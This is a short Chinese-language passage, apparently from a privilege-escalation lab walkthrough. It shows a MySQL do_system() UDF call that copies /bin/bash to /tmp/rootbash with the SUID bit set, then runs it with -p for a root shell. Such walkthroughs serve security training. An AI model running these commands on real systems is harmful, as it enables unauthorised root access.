 ![](img/43875acf4686ed4a3e27b56c488b02ed.png)![](img/15552c04aff427e4232e07dbbe081ab0.png)![](img/c7dce3b166bd0401267d5dc1b16ff37c.png)

使用函数将/bin/bash 复制到/tmp/rootbash，并设置 SUID 权限:

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

退出 MySQL shell(键入 **exit** 或 **\q** 并按 **Enter** )并使用-p 运行/tmp/rootbash 可执行文件以获得以 root 权限运行的 shell:

```
/tmp/rootbash -p
```
